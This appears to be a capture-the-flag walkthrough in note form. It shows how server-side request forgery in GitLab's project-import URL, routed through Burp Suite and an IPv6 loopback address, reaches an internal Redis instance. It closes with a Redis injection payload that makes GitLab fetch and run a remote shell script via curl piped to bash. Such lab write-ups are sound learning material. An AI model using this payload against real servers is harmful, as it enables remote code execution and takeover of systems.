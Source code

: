 ![[Pasted image 20240229151858.png]]

This opens the request in the Proxy tab of Burp Suite:

![[Pasted image 20240229152007.png]]

New lines can be added in Burp Suite after the `.git`

![[Pasted image 20240229180447.png]]

When this request is then forwarded, the request is received by the listener:

![[Pasted image 20240229181535.png]]
When these things are put together it means that:
- A malicious request can be redirected to the machines loopback address where redis is running using the URL option for a new project.
- The loopback address can be accessed by using IPv6, hex etc

# Connecting to Localhost

\# set the URL to contain an IPv6 version of the local host address:

![[Pasted image 20240229194202.png]]

\# Creating a new project with this URL allows us to connect to the localhost

![[Pasted image 20240229193939.png]]

\# Create another new project and add the port that redis is running on to the URL:

![[Pasted image 20240229193223.png]]

\# make sure to turn Burp Suite back on in FoxyProxy so that we can modify the data
(turn intercept off and back on to get a clean proxy)

![[Pasted image 20240229194412.png]]

Once "Create project" is clicked the request will be sent over to Burp Suite where the payload can be inserted, before forwarding on

\# add the payload after the `.git` URL:

![[Pasted image 20240229194959.png]]

```
multi
sadd resque:gitlab:queues system_hook_push
lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|curl http://10.10.14.8/shell.sh|bash\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
exec
exec
exec
```
